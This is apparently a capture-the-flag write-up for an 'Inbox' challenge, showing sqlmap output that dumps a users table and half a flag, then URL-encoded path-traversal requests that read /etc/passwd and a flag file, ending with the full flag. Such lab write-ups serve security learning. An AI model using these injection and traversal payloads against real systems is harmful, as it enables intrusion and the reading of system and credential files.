



## Inbox

Challenge text: I heard this email server has two halves of a whole flag in it!

Solve:

- Identified that we could access emails that appear to be gibberish and that if we make a request with an invalid email account we receive error output. 



- Threw `https://thecybercoopctf-inbox.chals.io/users/search?query=1` at sqlmap and received a users table and the first half of the flag

```
[3 entries]
+----+-----------------------+
| id | email                 |
+----+-----------------------+
| 1  | alice@fakeinbox.com   |
| 2  | bob@fakeinbox.com     |
| 3  | charlie@fakeinbox.com |
+----+-----------------------+

[22:07:57] [INFO] fetching columns for table flags
[22:07:57] [INFO] fetching entries for table flags
Database: <current>
Table: flags
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{off_to_a_good_start_ |`
```

- Afterwards I started reviewing LFI's in nodejs and saw frequent usage of ..%2f vs the decoded form which seemed to be prevented
- Succesfully grabbed /etc/passwd with `https://thecybercoopctf-inbox.chals.io/mail/charlie@fakeinbox.com/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`



- Grabbed the second half of the flag with `https://thecybercoopctf-inbox.chals.io/mail/charlie@fakeinbox.com/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fusr%2fsrc%2fapp%2fflag.txt`



- Final flag is `flag{off_to_a_good_start_even_better_finish_though}`
